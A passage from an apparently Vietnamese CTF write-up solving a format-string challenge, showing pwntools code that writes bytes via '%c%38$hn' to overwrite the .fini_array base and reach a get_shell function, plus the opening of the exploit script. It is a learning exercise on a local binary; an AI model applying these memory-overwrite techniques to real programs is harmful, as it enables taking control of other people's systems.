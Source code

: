 ```sau đó ta sẽ dùng sorted(package) để sắp xếp số byte cần in ra từ bé đến lớn, vì ta chỉ có thể in nhiều thêm chứ ko thể cắt in ít đi được, đảm bảo chương trình ko bị lỗi```
payload += flat(
    package[order[0]], # rw_addr so với lần 1
    package[order[1]], # rw_addr so với lần 2
    package[order[2]], # rw_addr so với lần 3

)

p.sendlineafter(b'> ', b'n' )
p.sendlineafter(b'something: ', payload )

```

### 3. change base address of .fini_array

địa chỉ đặc biệt trỏ đến đến địa chỉ base exe đã nằm trên stack sẵn rồi nên ta ko leak ra nữa mà dùng fmt luôn 

**offset từ địa chỉ đặc biệt đến địa chỉ chứa get_shell là 0x0360, vậy ta chỉ cần in để 2 byte cuối địa chỉ base thành địa chỉ ta cần là được** 

```python=
###################################################
### Stage 3: change base address of .fini_array ###
###################################################

# 0x0055698e417000 + 0x3d90 = 0x000055698e41ad90
# 0x0055698e417000 + 0x3d90 + ? = 0x000055698e41b0f0
# ? = 0x360 = offset stack

p.sendlineafter(b'> ', b'n' )

p.sendlineafter(b'something: ', f'%{(exe.address + 0x360) & 0xffff}c%38$hn')
p.sendlineafter(b'> ', b'y' )

```

h ta chạy thử xem sao 

![image](https://github.com/gookoosss/CTF/assets/128712571/1d61ee11-f28b-4929-8a0a-4b2f50a8cb38)


**gán get_shell thành công nè**

![image](https://github.com/gookoosss/CTF/assets/128712571/91f8bb21-b442-44ac-b66e-444adc60147a)

**sửa 2 byte cuối địa chỉ base thành đuôi 0x360 rồi nè**

![image](https://github.com/gookoosss/CTF/assets/128712571/936368da-a740-43d1-8a8f-9fc7b71954b8)

oke lấy được shell luôn rồi

**script:**

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./fmtstr8_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")
p = process([exe.path])

context.binary = exe

#fini_array offset: 0x3d90

```